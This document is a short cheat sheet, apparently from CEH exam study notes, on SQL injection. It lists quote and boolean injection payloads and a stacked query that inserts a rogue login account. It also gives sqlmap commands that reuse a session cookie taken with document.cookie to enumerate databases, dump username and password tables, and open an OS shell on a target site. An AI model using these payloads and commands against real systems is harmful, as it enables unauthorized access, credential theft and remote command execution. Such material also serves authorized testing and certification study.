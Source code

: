 # [<<< Back to index](../CEH_index.md)
## SQL Injection

1
```
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
```

blah';insert into login values('john','apple123');-- `Insert new details if sql injection found in login page in username tab enter`

### sqlmap

`cookie` In the website profile, do inspect element and in the console tab write -  document.cookie

sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value don't remove square brackets]" --dbs `Exploit a Blind SQL Injection`

sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value don't remove square brackets]" -D databasename --tables `Command to check tables of database retrieved`

sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value don't remove square brackets]" -D databasename -T Table_Name --dump `Get user and pass -Select the table 
you want to dump`

sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value don't remove square brackets]" --os-shell `For OS shell this is the command`

### ZAP Proxy - web scanner

`zaproxy`

